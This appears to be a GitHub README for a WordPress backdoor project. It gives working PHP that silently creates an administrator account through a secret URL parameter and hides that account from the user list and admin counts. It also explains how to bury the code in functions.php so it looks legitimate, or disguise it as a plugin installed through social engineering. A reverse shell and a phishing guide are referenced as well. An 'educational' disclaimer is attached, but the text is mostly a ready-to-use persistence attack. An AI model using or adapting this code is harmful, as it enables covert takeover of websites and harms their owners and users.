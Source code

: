 ![logo](/logo.png)
![version](https://img.shields.io/badge/version-1.0-blue) ![version](https://img.shields.io/badge/tested-locally-green) ![version](https://img.shields.io/badge/language-PHP-purple)

## Huge Update!

![version](https://img.shields.io/badge/version-2.0-blue)

> [!NOTE]
> **I have decided to take this repo a step further and make a step by step guide on how to implement it in a real case scenario with a phishing campaign based on a recently delivered phishig campaign to WordPress admins. [Here](https://amtzespinosa.github.io/posts/wordpress-backdoor-plugin/) you can check the full article!**

## Disclaimer
**This is for educational purposes only.** I am not liable for any indirect, incidental, special, consequential or punitive damages, or any loss of profits or revenue, whether incurred directly or indirectly, or any loss of data, use, goodwill, or other intangible losses, resulting from 

 1. your access to this resource and/or inability to access this resource
 2. any conduct or content of any third party referenced by this resource, including without limitation, any defamatory, offensive or illegal conduct or other users or third parties
 3. any content obtained from this resource.

## Files

 - [backdoor.php](/backdoor.php) - code to set the backdoor.
 - [hidden_admin.php](/hidden_admin.php) - code to hide users (the user created by backdoor.php).
 - [wp-backdoor.zip](/wp-backdoor.zip) - the code made WordPress plugin.
 - [wp-backdoor.php](/wp-backdoor/wp-backdoor.php) - code used for the plugin.
 - [reverse_shell.php](/reverse_shell.php) - Pentest Monkey PHP Reverse Shell. Old but gold.

## Proof of Concept
Many times I have asked myself how to maintain access to a compromised **WordPress** site for the sake of surveillance/data gathering/etc... Apart from reverse shells, of course, because I see some issues with the reverse shells stuff. I know they're all rectifiable but there are many things to have into consideration if in a rush:

 1. You have to throw the reverse shell to your IP - revealing info about you.
 2. Proxy then! - I don't trust free proxies... they're down, slow, instable...
 3. A reverse shell is just that: a shell - you can do a lot of stuff but it's not an easy GUI.
 4. Not precisely hidden - unless you hide the malicious code really well, it will be detected very fast.
 5. And after you get the shell you have to escalate privileges.

So I thought... what about **a dormant/hidden admin account** you can activate whenever you want and access (via wp-login) the core of the site inadvert?

Well, here's the first draft of this thought.

The starting point is: **you already have access.** How? That's up to you and beyond the scope of this code. But, in case you want to use it to gain access, you'll need a Trojan Horse and good social engineering skills.

To explain the **WP Backdoor** I will divide the code in three parts: 

 1. Creating the admin user.
 2. Hiding the admin user.
 3. Installing the backdoor.

## Creating the new_admin

WordPress allows us to do everything by code. That means we can actually create users with a few lines of code. But to go further, let's trigger that user creation by visiting a specific URL:

    add_action( 'wp_head', 'wp_backdoor' );
    
    function  wp_backdoor() {
	    if ( $_GET['backdoor'] == 'go' ) {
		    require( 'wp-includes/registration.php' );
		    if ( !username_exists( 'new_admin' ) ) {
			    $user_id = wp_create_user( 'new_admin', 'new_pass' );
			    $user = new  WP_User( $user_id );
			    $user->set_role( 'administrator' );
		    }
	    }
    }

By visiting the URL: *https://[insert website here]*/**?backdoor=go**, automatically a new user called **new_admin** will be created. This new user will have the role of administrator and its privileges and the password would be **new_pass.**

Now we have the user but it's in plain sight and would be easily noticed by others. So it's time to hide it!

## Hiding the new_admin

This code has two parts: hiding the **new_admin** and making everything look right.

Code for hiding a user:

    add_action('pre_user_query','dt_pre_user_query');
    
    function  dt_pre_user_query($user_search) {
	    global  $current_user;
	    $username = $current_user->user_login;

	    if ($username != 'new_admin') {
		    global  $wpdb;
		    $user_search->query_where = str_replace('WHERE 1=1',
			    "WHERE 1=1 AND {$wpdb->users}.user_login != 'new_admin'",$user_search->query_where);
        }
    }

But without the next piece of code there would be some hints that something is happening. In example: there's only one admin but the total count of admins is 2. Funky...

So let's correct those flaws...

    add_filter("views_users", "dt_list_table_views");
    
    function  dt_list_table_views($views){
	    $users = count_users();
	    $admins_num = $users['avail_roles']['administrator'] - 1;
	    $all_num = $users['total_users'] - 1;
	    $class_adm = ( strpos($views['administrator'], 'current') === false ) ? "" : "current";
	    $class_all = ( strpos($views['all'], 'current') === false ) ? "" : "current";
	    $views['administrator'] = '<a href="users.php?role=administrator" class="'  .  $class_adm  .  '">'  .  translate_user_role('Administrator') .  ' <span class="count">('  .  $admins_num  .  ')</span></a>';
	    $views['all'] = '<a href="users.php" class="'  .  $class_all  .  '">'  .  __('All') .  ' <span class="count">('  .  $all_num  .  ')</span></a>';
	    return  $views;
    }

And there we go! Now our backdoor would be unnoticed unless someone carries out a thorough scan of the site. But... How can we stuff this code into a WordPress site?

Well, here are some ways. Sure there are more. Let your imagination be the limit!

## Setting up the backdoor
Depending on your intentions this would be your first or your last step. If you are using this method for persistence then it would be your last step and you should have access already.

In case you want to gain access, you should start here.

### Persistence

If you already have access, just copy the three code blocks together into **functions.php.** Not on top, not at the bottom, right in the middle. I have tried to do it around line 150. With a quick look to the code it looks legit.

Once it's pasted and saved, backdoor is ready to be used. 

### Gain access

We can hide this malicious code into a WordPress plugin. This method can be used for persistance as well but have some inconvenients. The main one is that, once the plugin is deactivated, so does the hiding code and your backdoor would be visible.

We can make our own plugin to disguise the code or download a legit plugin, stuff it inside and - for both cases with a bit of social engineering, make the admin install the plugin.

I am giving you a simple plugin containing just the malicious code. It is not disguised, just a sample. If you feel like, you can also learn how to make legit plugins with the WordPress documentation. 

## Final thoughts
I know this could be better. And it will. My future improvements would probably go around using a plugin to write into functions.php so once it is activated, code is stuffed in functions.php and the plugin is not needed anymore.

Be careful who you let in your site. Update everything, revise the core code and delete  unuseful stuff you don't need.

That's it. If you want to add more info, code or anything I'll be pleased. Happy hacking!

